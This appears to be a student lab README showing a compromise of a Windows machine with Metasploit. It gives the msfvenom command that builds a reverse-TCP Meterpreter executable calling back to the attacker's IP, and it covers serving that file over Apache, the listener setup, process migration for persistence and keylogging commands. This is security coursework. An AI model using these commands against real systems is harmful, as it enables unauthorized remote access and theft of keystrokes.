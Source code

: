 # Compromising-windows-using-Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

1) Install kali linux either in partition or virtual box or in live mode

2) Investigate on the various categories of tools as follows:

3) Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAMS:

Find the attackers ip address using ifconfig

#### OUTPUT:
![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/652db2a7-41fe-4f0b-9d6a-bafd45358c66)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

#### OUTPUT:

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8a94c14f-93c4-44c0-9307-09d091275f2a)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/00951cdd-6e72-425a-a7d3-3861205e75a1)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/ab5917bc-b667-43e6-8569-afac549df4de)

Check the status of apache2

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2b2a7279-1968-4f7b-ac9d-25a6fbd9d8f8)

### Invoke msfconsole:'

#### OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler


![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/f81fb9a9-568e-48de-a97d-224f14916b52)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/8905bab0-5573-4be1-82ca-a6a510ed478f)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/3b376e36-9001-421e-9301-ffb999a638f1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/89123af1-f1c2-4cfb-a5a8-c24bdc714336)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/d3eab66d-7142-4366-ac4d-d2644fc02717)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/6b83ef4d-6410-45d3-a6ae-f63b3b13c953)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Monisha-11/Compromising-windows-using-Metasploit/assets/93427240/2ee279ad-7ce2-426b-960c-a92a0c067e8a)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
